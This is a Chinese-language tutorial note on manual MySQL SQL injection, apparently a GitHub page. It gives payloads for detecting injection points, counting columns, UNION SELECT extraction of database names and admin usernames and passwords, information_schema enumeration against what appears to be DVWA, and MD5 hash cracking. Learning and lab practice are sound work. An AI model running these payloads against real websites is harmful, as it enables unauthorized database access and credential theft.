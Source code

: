 # MQL注入

## 方法一

### 1

打开这个网址,查看URL地址,如果是一个动态URL，也就是说可以在地址栏中传参，这是SQL注入的基本条件

### 2

判断是否存在SQL注入可能。在帖子地址后面空上一格，敲入 and 1=1 ,然后 and 1=2

敲入 and 1=1 帖子返回正常， and 1=2 时帖子返回出错，说明SQL语句被执行

程序没有对敏感字符进行过滤。现在我们可以确定此处是一个SQL注入点，程序对带入的参数没有做任何处理，直接带到数据库的查询语句中

> 推测

Select * from [表名] where xxxx=xxx

### 3

爆数据库。确定注入点仅仅意味着开始

现在要判断数据库类型以及版本，构造语句如下：

```
and ord(mid(version(),1,1))>51 
```

发现返回正常页面，说明数据库是mysql，并且版本大于4.0，支持union查询，反之是4.0

### 4

爆字段。接着构造语句来猜表中字段

```
order by 10 
```

返回错误页面，说明字段小于10

```
order by 5    
```

 返回正常页面，说明字段介于5和10之间 

采用了“二分查找法”，这样可以减少判断次数，节省时间。如果采用从order by 1依次增加数值的方法来判断，需要7次才可以确定字段数，采用“二分查找法”只需要4次就够。当字段数很大时，二分查找法的优势更加明显，效率更高

### 5

爆表.确定字段之后现在我们要构造联合查询语句(union select )，语句如下

```
 and 1=2 union select 1,2,3,4,5,6
```

这里的3，5，6指的是我们可以把联合查询的对应位置替换为 我们想要查询的关键字，比如版本，数据库名称，主要是用来探测web系统的信息

### 6

爆用户名、密码。选择3 ,把3给替换掉，先查询下数据库库名，构造语句如下

```
and 1=2 union select 1,2,database(),4,5,6
```

```
and 1=2 union select 1,2,user(),4,5,6
```

```
nd 1=2 union select 1,2,username,4,5,6 from admin
```

```
and 1=2 union select 1,2,password,4,5,6 from admin
```

### 7

md5解密

字符串密码经过32位md5[加密](http://www.2cto.com/article/jiami/)后的值


(http://www.md5.com.cn ） 这个网址，我们把这个值复制进去，然后点击“MD5 CRACK“，“解密”时间，视密码复杂度而定

## 方法二



version() database() user()

### 1

漏洞判断

1’ and 1=1 #

1’ and 1=2 #

`'是为了闭合数据,#是为了注释后面的命令`

### 2

查询数据长度

Order by num#



### 3

查数据库名

MySQL中的DATABASE()函数返回默认或当前数据库的名称

DATABASE()函数返回的字符串或名称使用utf8字符集。如果没有默认数据库，则Database函数返回NULL

```
1’ union select 1,database() #
```

这里select后的1可以随机,为了匹配输出数据的个数 





#### 4

查数据库表名

```
1’ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```



+ table_name，就是表名的意思

+ group_concat() 是一个函数，将同一个id的其他字段合并起来

+ information_schema.tables 是MySQL提供的自带的数据库，主要是提供用户自行建立的一些表的信息。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等

+ able_schema=database() 是指数据库名称为database()。

#### information_schema

在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等

+ SCHEMATA表：提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表

+ TABLES表：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息
+ COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表

+ STATISTICS表：提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表
+ USER_PRIVILEGES（用户权限）表：给出了关于全程权限的信息

+ SCHEMA_PRIVILEGES（方案权限）表：给出了关于方案（数据库）权限的信息

+ TABLE_PRIVILEGES（表权限）表：给出了关于表权限的信息

### 5

获取字段名

```
1' union select1,table_name from information_schema.tables where table_name='dvwa'#
```

column_name 表示列名



### 6

获取详细数据



```
1’ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```



```
concat(user,password)
```

将两个字段合成一个字段